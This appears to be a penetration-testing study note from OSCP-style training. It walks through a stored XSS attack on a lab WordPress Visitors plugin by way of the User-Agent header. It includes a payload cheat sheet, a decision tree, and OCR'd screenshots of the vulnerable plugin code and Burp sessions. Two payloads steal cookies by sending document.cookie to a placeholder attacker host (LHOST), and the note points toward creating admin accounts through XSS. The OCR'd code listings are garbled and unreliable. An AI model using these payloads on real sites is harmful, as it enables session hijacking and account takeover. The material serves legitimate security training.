

---
tags:
  - phase/exploitation
  - web
  - xss
---

# Basic XSS

> [!tip] Quick Reference — XSS
> | Type | Payload |
> |------|---------|
> | Basic test | `<script>alert(1)</script>` |
> | Image onerror | `` |
> | SVG | `<svg onload=alert(1)>` |
> | Cookie steal | `<script>document.location='http://<LHOST>/?c='+document.cookie</script>` |
> | Attribute inject | `" onmouseover="alert(1)` |
> | Filter bypass | `<ScRiPt>alert(1)</ScRiPt>` |

## Decision Tree

```
User input reflected in page?
├── Test basic: <script>alert(1)</script>
│   ├── Popup appears → Stored or Reflected XSS
│   └── No popup → check page source for output
│       ├── Output in attribute → " onmouseover="alert(1)
│       ├── Output in JS context → ';alert(1);//
│       └── Filtered → try alternatives (img, svg, uppercase, encoding)
│
├── Stored XSS (persists for other users)?
│   └── Higher impact — can target admin sessions
│       ├── Cookie theft (if no HttpOnly)
│       │   └── <script>fetch('http://<LHOST>/?c='+btoa(document.cookie))</script>
│       └── Admin action via CSRF + XSS
│           └── Craft JS to perform action as admin (create user, change password)
│
└── Reflected XSS?
    └── Needs victim to click URL — less useful for OSCP unless specifically required
```

## Visual Flow



> [!success] What success looks like
> After sending the crafted `User-Agent: <script>alert(42)</script>` and getting a 200 OK, you log in as admin, open the Visitors plugin dashboard, and a pop-up banner shows **42** — proving your script was stored and then executed in the admin's browser.

> [!danger] Common errors
> - No pop-up when the admin loads the plugin → the payload may have been HTML-encoded or stripped; inspect the stored value in the response and adjust the context. See [[🔣 Encoding Reference]].
> - You inject the payload but never see it fire → here the bug is **stored**, so the alert only triggers when the *admin* loads the Visitors plugin page, not when you send the request.
> - Note: once wrapped in `<script>` tags, the User-Agent string itself won't render as visible text in the table — that is expected; the browser executes it instead of displaying it.
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> An `alert(42)` box proves nothing useful by itself — it is just the quickest visual proof that *your* JavaScript ran. Once confirmed, you replace the harmless alert with real attack code (like creating a new administrator), which is covered in [[Privilege Escalation via XSS]].

## Resources
- [HackTricks — XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
- [PayloadsAllTheThings — XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [XSS Hunter](https://xsshunter.trufflesecurity.com) — blind XSS callbacks


Let's demonstrate basic XSS with a simple attack against the OffSec WordPress instance. The WordPress installation is running a plugin named Visitors that is vulnerable to stored XSS. The plugin's main feature is to log the website's visitor data, including the IP, source, and User-Agent fields.
[https://downloads.wordpress.org/plugin/visitors-app.0.3.zip](https://downloads.wordpress.org/plugin/visitors-app.0.3.zip)
This PHP function is responsible for parsing various HTTP request headers, including the User-Agent, which is saved in the useragent record value.


From the above code, we'll notice that the useragent record value is retrieved from the database and inserted plainly in the Table Data (td) HTML tag, without any sort of data sanitization.

As the User-Agent header is under user control, we could craft an XSS attack by inserting a script tag invoking the alert() method to generate a pop-up message. Given the immediate visual impact, this method is very commonly used to verify that an application is vulnerable to XSS.


With Burp configured as a proxy and Intercept disabled, we can start our attack by first browsing to
[http://offsecwp/](http://offsecwp/)
using Firefox.

We'll then go to Burp Proxy > HTTP History, right-click on the request, and select Send to Repeater.


(<script>alert(42)</script>)

If the server responds with a 200 OK message, we should be confident that our payload is now stored in the WordPress database.

To verify this, let's log in to the admin console at
[http://offsecwp/wp-login.php](http://offsecwp/wp-login.php)
using the admin/password credentials.

If we navigate to the Visitors plugin console at
[http://offsecwp/wp-admin/admin.php?page=visitors-app%2Fadmin%2Fstart.php,](http://offsecwp/wp-admin/admin.php?page=visitors-app%2Fadmin%2Fstart.php,)
we are greeted with a pop-up banner showing the number 42, proving that our code injection worked.


Excellent. We have injected an XSS payload into the web application's database and it will be served to any administrator that loads the plugin. A simple alert window is a somewhat trivial example of what can be done with XSS, so let’s try something more interesting, like creating a new administrative account.

> [!note]- Screenshot
> ```
> The source code for the plugin can be downloaded from its website. If we inspect the
> database.php file, we can verify how the data is stored inside the WordPress database:
> function VST_save_record() {
> global $wpdb;
> $table_name = $wpdb->prefix . “VST_registros";
> VsT_create_table_records();
> return $updb->insert(
> $table_name,
> array(
> “patch” => $_SERVER["REQUEST_URI™],,
> ‘datetime’ => current_time( ‘mysql’ ),
> ‘useragent" => $ SERVER["HTTP_USER_AGENT’],
> ‘ip’ => $_SERVER[ 'HTTP_X_FORWARDED_FOR*]
> )
> 3
> 3
> Listing 24 - Inspecting Visitor Plugin Record Creation Function
> ```


> [!note]- Screenshot
> ```
> Next, each time a WordPress administrator loads the Visitor plugin, the function will
> execute the following portion of code from start.php:
> $i=count(VST_get_records($date_start, $date_finish));
> foreach(VST_get_records($date_start, $date finish) as $record) {
> echo *
> <tr class="active” >
> <td scope="row” >".$i."</td>
> <td scope="row" >" .date format (date_create($record->datetime),
> get_option(“links_updated_date_format”)).°</td>
> <td scope="row” >". $record->patch. "</td>
> <td scope="row” ><a href="https: //www.geolocation.com/es?ip=" .$record-
> >ip. #ipresult">’ .$record->ip."</a></td>
> <td>" $record-suseragent. "</td>
> </tr>"
> $i--s
> 3
> Listing 25 - Inspecting Visitors Plugin Record Visualization Function
> ```


> [!note]- Screenshot
> ```
> © Info
> 
> Although we just performed a white-box testing approach, we could have
> discovered the same vulnerability by testing the plugin through black-box HTTP.
> header fuzzing.
> ```


> [!note]- Screenshot
> ```
> Burp Project Intruder Repeater. Window Help
> Dashboard Target Proxy Intruder _—=«—=Repeater_—«Sequencer_-—«‘Decoder. «© Comparer Logger Extender
> Intercept __HTTPhistory __WebSocketshistory Options
> Filter: Hiding CSS, image and general binary content
> * Host Method URL Params Edited Status. Length MIM
> ji httpiloffsecwp cr ann 47436
> hitp/offsecwp!
> ‘Add to scope
> Send tointruder ‘
> ‘Sendto Repeater ctrleR
> Send to Sequencer
> Send to Comparer (request)
> Send to Comparer response)
> ‘Show response in browser
> Request inbrowser
> Request Engagement tools [Pro version ony]
> Ea @r = Show new history window
> L GET / HITP/1.1 ‘Addcomment
> Host: offsecwp Highlight
> User-Agent: Mozilla/5.0 (X11; Linux x86 64; rv:91.0) Ge
> 4 Accept: text/html, application/xhtml+xml,application/xml,  Deleteitem
> 5 Accept -Language: en-US,en;q=0.5 Clear history
> 6 Accept-Encoding: gzip, deflate
> Connection: close Copy URL
> Cookie: wordpress test_cookie=WP+20Cookies20check: Copy curl command
> wordpress logged_in_ff4)52f¥2b49b52aa95183b2e5ad08ce= Py as cu
> admin’: 7C1649848757.7C22hpoMYRvjKNS2XqicHO4MLELuaWqQVKGH —Copylinks )7a67b57be088
> cc 400b1447daS#541 420280e66392b6; wp-settings-1=library, ime-1=
> 1649675957 Saveltem
> 9 Upgrade-Insecure-Requests: 1 Proxy history documentation
> ho
> ba
> Figure 26: Forwarding the request to the Repeater
> ```


> [!note]- Screenshot
> ```
> Moving to the Repeater tab, we can replace the default User-Agent value with the a
> script tag that includes the alert method (<script>alert(42)</script>), then send the
> request.
> Burp Project Intruder Repeater Window Help
> Dashboard ‘Target ‘Proxy intruder _—=Repeater «Sequencer _—«‘Decoder_—«Comparer Logger ‘Extender
> 1s
> Es Gu =
> 1 Ger / HITP/L.A
> 2 Host: offsecup
> 5 User-Agent: <script>alert (42) </script>
> 4 Accept: text/htal, applacation/xhtal+xml , application/xal :q=0.9, image/webp,*/*:q-0.8
> 5 Accept-Language: en-US,en:q=0.5,
> Accept-Encoding: gzip, deflate
> Connection: close
> Cookie: vordpress_test_cookies
> wordpress Logged_in_f#4b52f¥2b49052aa991 83 2eSado8ce
> } wp-settings-1= } Wp-settings-tine-1=
> Upgrade-Insecure-Requests: 1
> u
> a
> Figure 27: Forwarding the request to the Repeater
> ```


> [!note]- Screenshot
> ```
> D) ote O7 Mo tne
> @ Dashboard l
> P Post
> 9) Mess Visitors
> Pa stat
> comme Todey pri 2022 .
> F Aopenrance ers
> sen ® Dateand Time ‘URL °
> # ea 1 sori, 2022703 9m 1
> Seti Sottsccnp
> °
> Figure 28: Demonstrating the XSS vulnerability
> ```

---
%% graph-links %%
## Related
- [[Identifying XSS Vulnerabilities]]
- [[Privilege Escalation via XSS]]
- [[Stored vs Reflected XSS Theory]]

> [!info] Navigation
> Section: [[Web Applications/Cross-Site Scripting/_index|Cross-Site Scripting]] · Home: [[🏠 Home]]

